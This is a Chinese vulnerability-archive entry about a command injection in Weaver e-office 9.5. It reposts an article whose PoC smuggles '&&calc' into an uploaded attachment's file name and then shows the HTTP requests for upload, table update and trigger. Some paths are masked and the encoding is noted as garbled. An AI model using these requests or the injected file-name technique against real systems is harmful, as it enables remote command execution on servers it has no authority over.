










# 泛微e-office doc2txt附件文件名命令注入

## 条目说明

- 对象与具体问题：泛微e-office；doc2txt附件文件名命令注入
- 版本、配置及部署条件：9.5；Windows、register_globals=On、已有附件及全局搜索
- 认证与权限前提：普通employee可上传并触发，非未认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正文称path不受用户控制却随后由附件名拼接，逻辑矛盾应修为未过滤/可间接控制
- 触发和上传路径被xxx遮盖，multipart字段名丢失，文件名出现©转码异常
- 源码细节全靠截图；修复链接拼接且download截断；CVE与VDB-228776应区分命名空间
- 不能与任意文件上传CVE-2023-2648或2523直接合并

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SvXhnsmHsFhHi4tK9_ow7g)<table width="677"><tbody><tr><td width="557" valign="top" height="62"><p><strong>声明：</strong>该公众号分享的安全工具和项目均来源于网络，仅供安全研究与学习之用，</p><p>如用于其他用途，由使用者承担全部法律及连带责任，与工具作者和本公众号无关。</p></td></tr></tbody></table>

**影响范围**

泛微 E-Office 9.5

**漏洞描述**

     在 Weaver E-Office 9.5 中发现了一个漏洞，并将其归类为严重漏洞。受此问题影响的是组件文件上传处理程序的文件 /webroot/inc/utility_all.php 的一些未知功能。操纵导致命令注入。可以远程发起攻击。该漏洞已向公众披露并可能被使用。该漏洞的标识符为 VDB-228776。

更新日志以及版本升级查看地址:

```
https://www.weaver.com.cn/cs/securityDownload.html#

```

       漏洞利用函数出现在 /webroot/inc/utility_all.php 的第 1007-1008 行。

自定义函数 doc2txt()调用了 exec()函数，$path 变量不受用户控制，可以使用命令连接符号 “&&” 注入任意命令。



    漏洞触发点位于 / webroot/general/file_folder/global_search.php 文件中。

我们在第 108 行调用 doc2txt()，然后追溯 doc2txt() 参数 $FILE_PATH 的来源，附件目录 (C: eoffice9webrootattachment) 以获取完整的文件路径。

注意在 php 配置文件（php.ini）中启用了注册全局变量设置（register_globals = On），所以第 93 行变量 $ATTACHMENT_DATA 和第 106 行变量 $SEARCH_DOC 的值需要用户在 GET/POST . 而 103 行会检查文件是否存在，所以不应该包含在命令执行中的文件中不能使用 /| < > : * "? 特殊符号。



所在文件夹：



查看该目录下的文件：



利用漏洞

创建一个名为 test 的普通用户，角色为 employee。



以测试用户登录，进入文档中心 ->新建文档，创建一个文档并上传名为 “1&&calc&© nul a.doc” 的附件，然后点击提交。



上传附件：



upload attachment 更新数据表信息。



访问漏洞触发页面。 

```
http://172.16.10.124/general/xxx/xxx.php?ATTACHMENT_DATA=1&SEARCH_DOC=on

```



登录服务器查看进程并启用 Windows 计算器。



POC

上传附件

```http
POST /inc/jquery/xxx/xxx.php HTTP/1.1
Host: 172.16.10.124
Content-Length: 328
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1ZCUAAAXxnYuVIZR
Accept: */*
Origin: http://172.16.10.124
Referer: http://172.16.10.124/general/file_folder/file_new/neworedit/index.php?FILE_SORT=1&func_id=7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: LOGIN_LANG=cn; PHPSESSID=16a132db599e8d54a45e704389a29686
Connection: close
------WebKitFormBoundary1ZCUAAAXxnYuVIZR
Content-Disposition: form-data; 
1&&calc&© nul a.doc
------WebKitFormBoundary1ZCUAAAXxnYuVIZR
Content-Disposition: form-data; 
Content-Type: application/msword
aaaaa
------WebKitFormBoundary1ZCUAAAXxnYuVIZR--

```

更新数据表中的数据

```http
POST /general/xxx/xxx/xxx/xxx.php?func_id=3 HTTP/1.1
Host: 172.16.10.124
Content-Length: 2426
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.10.124
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2JIQiWFev9A8p6UP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.10.124/general/file_folder/file_new/neworedit/index.php?FILE_SORT=1&func_id=7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: MODE_TILE=tree; LOGIN_LANG=cn; LOGIN_LANG=cn; PHPSESSID=16a132db599e8d54a45e704389a29686
Connection: close
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
1575146901,
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
1&&calc&© nul a.doc*
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
eoffice9.0功能资料
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
28
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
test
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
1
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
Content-Type: application/octet-stream
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
1
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
1
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
html
------WebKitFormBoundary2JIQiWFev9A8p6UP
Content-Disposition: form-data; 
------WebKitFormBoundary2JIQiWFev9A8p6UP--

```

访问触发页面

```http
GET /general/xxx/xxx.php?ATTACHMENT_DATA=1&SEARCH_DOC=on HTTP/1.1
Host: 172.16.10.124
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: LOGIN_LANG=cn; PHPSESSID=16a132db599e8d54a45e704389a29686
Connection: close

```

**漏洞修复地址**

**`https://www.weaver.com.cn/cs/securityDownload.html#``https://service.e-office.cn/downloa``https://service.e-office.cn/knowledge/detail/5`**

扫描添加作者为好友（sqlxss）


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
